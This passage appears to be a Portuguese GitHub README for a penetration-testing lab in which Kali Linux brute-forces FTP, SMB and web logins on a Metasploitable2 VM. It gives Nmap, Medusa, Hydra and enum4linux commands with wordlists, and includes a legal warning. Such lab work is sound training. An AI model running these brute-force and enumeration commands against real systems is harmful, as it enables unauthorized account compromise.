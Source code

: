 # Medusa-kali-metasp
Laboratório: ataque de brute-force com Medusa(Kali + Metasploitable2)
# Simulação de Ataques de Força Bruta com Kali + Medusa

**Autor:** João Lourenço
**Ambiente:** VirtualBox — Kali Linux (atacante) e Metasploitable2 (alvo) em rede host-only  
**Data:** 2025-10-03

## Resumo
Laboratório prático simulando ataques de força bruta em serviços comuns (FTP, SMB, Web) usando Kali Linux e **Medusa**. O objetivo é aprender técnicas de auditoria controlada, documentar as ações e propor mitigações.

> **Aviso legal:** Todos os testes foram executados em VMs isoladas e controladas (metasploitable). Não execute ataques contra sistemas sem autorização.

## Arquitetura do laboratório
- VirtualBox:
  - Kali Linux (atacante)
  - Metasploitable2 (alvo)
- Rede: Host-only (isolada do resto da rede)
- Fazer snapshot das VMs antes de começar

## Ferramentas utilizadas
- Kali Linux
- Nmap
- Medusa (brute-force)
- Hydra (alternativa)
- enum4linux
- nc / ftp (testes manuais)
- fsck / mount (recuperação de filesystem)

## Wordlists incluídas
- `users.txt` — lista de usuários de teste
- `pass.txt` — lista de senhas de teste

(As wordlists são intencionais e simples para fins didáticos.)

## Comandos executados (exemplos)
```bash
# Reconhecimento e descoberta
nmap -sV -p 21,22,80,139,445 192.168.56.101 -oN nmap_scan.txt

# Teste manual de FTP
ftp 192.168.56.101
# ou
nc 192.168.56.101 21

# Medusa - brute force FTP (arquivo de usuários e senhas)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 > medusa_out.txt

# Hydra (alternativa)
hydra -L users.txt -P pass.txt ftp://192.168.56.101 -t 6

# Enumeração SMB
enum4linux -a 192.168.56.101 > enum4linux_out.txt

# Caso de erro de filesystem (no alvo) — exemplo de recuperação (em modo manutenção):
fsck -f /dev/mapper/metasploitable-root
